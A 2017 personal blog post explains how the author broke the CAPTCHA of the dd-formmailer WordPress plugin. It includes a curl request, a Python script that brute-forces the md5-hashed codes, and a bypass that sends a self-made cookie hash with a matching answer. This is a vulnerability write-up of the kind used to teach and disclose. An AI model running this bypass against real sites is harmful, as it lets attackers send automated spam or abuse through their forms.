 +++
date = "2017-02-18T10:55:59-05:00"
draft = false
title = "Defeating dd-formmailer's Weak CAPTCHA"
description = "How I broke a Wordpress plugin's weak CAPTCHA"
hasmath = true
+++

Yesterday, I visited a website that uses [dd-formmailer][1], a Wordpress
plugin that provides a form for sending an email, complete with a
CAPTCHA intended to prevent automated abuse. Here's a screenshot:

![A screenshot of the dd-formmailer form][i1]

I was bored and curious, so I looked at the CAPTCHA image and noticed it
was always served from the same path:
`/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1`. How, I
wondered, does the script handling form submissions know if the user
entered the right CAPTCHA? A cookie?

    $ curl -si http://[snip].com/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1 | head
    HTTP/1.1 200 OK
    ...
    Set-Cookie: ddfmcode=bacb87c6f4ad4b08090e838d074bc18f; expires=Sat, 18-Feb-2017 17:47:30 GMT; path=/; domain=.[snip].com
    ...

A cookie! With what, the md5 of the correct answer?

    $ echo -n 3649B | md5sum
    bacb87c6f4ad4b08090e838d074bc18f  -

Yes!

As you can probably tell already, this is not the best approach.

# Pass 1

Looking at [the source][2],

    srand((double)microtime()*1000000); 
    $ddfmcode = substr(strtoupper(md5(rand(0, 999999999))), 2, 5); 
    $ddfmcode = str_replace("O", "A", $ddfmcode); // for clarity
    $ddfmcode = str_replace("0", "B", $ddfmcode);
    setcookie("ddfmcode", md5($ddfmcode), time()+3600, '/', '.' . $this_domain); 

you can see that CAPTCHA codes generated are 5-character hex strings
without 0s, leaving only $15^5 = 759,375$ possibilities. (Contrary to the
third line, hex strings don't contain the letter O 😄). We can brute
force all of these in less than two seconds with a simple Python script:

    #!/usr/bin/env python3
    
    from hashlib import md5
    
    for i in range(16**5):
        # Skip numbers with a 0 in their 5-char hex form
        if i >> 16 == 0 or \
           i >> 12 & 0xF == 0 or \
           i >> 8 & 0xF == 0 or \
           i >> 4 & 0xF == 0 or \
           i & 0xF == 0:
            continue
    
        captcha = '{:05X}'.format(i)
        hashed = md5(captcha.encode()).hexdigest()
        print('{}\t{}'.format(hashed, captcha))

and

    $ time ./bruteforce.py >hashes

    real    0m1.870s
    user    0m1.820s
    sys     0m0.052s

Then, when the server gives us a hash in the cookie, we can easily look
it up:

    $ time grep bacb87c6f4ad4b08090e838d074bc18f hashes
    bacb87c6f4ad4b08090e838d074bc18f        3649B
    
    real    0m0.016s
    user    0m0.008s
    sys     0m0.004s

But it gets better.

# Pass 2

While writing the last section, I realized: what stops clients from
sending a cookie with their own hash? The answer is nothing.

For example, I can send a `Cookie:
ddfmcode=b252d1fe1c0c16d001027c2fce9b6529` header (the md5 of "BANANA")
and then "BANANA" in the `fm_verify` form field and successfully send
the email. You don't need to request the CAPTCHA image at all!

Here's the relevant section of code:

    $t = ddfm_stripslashes($form_input['fm_verify']);
    ...
    } else if ($_COOKIE["ddfmcode"] != md5(strtoupper($t))) { 
    
    	$errors[] = DDFM_INVALIDVER;
    
    } 

# Conclusion

Avoid Wordpress plugins last updated in 2009.

[1]: http://www.dagondesign.com/articles/secure-form-mailer-plugin-for-wordpress/
[2]: http://www.dagondesign.com/articles/secure-php-form-mailer-script/#download
[i1]: /img/defeating/1.png
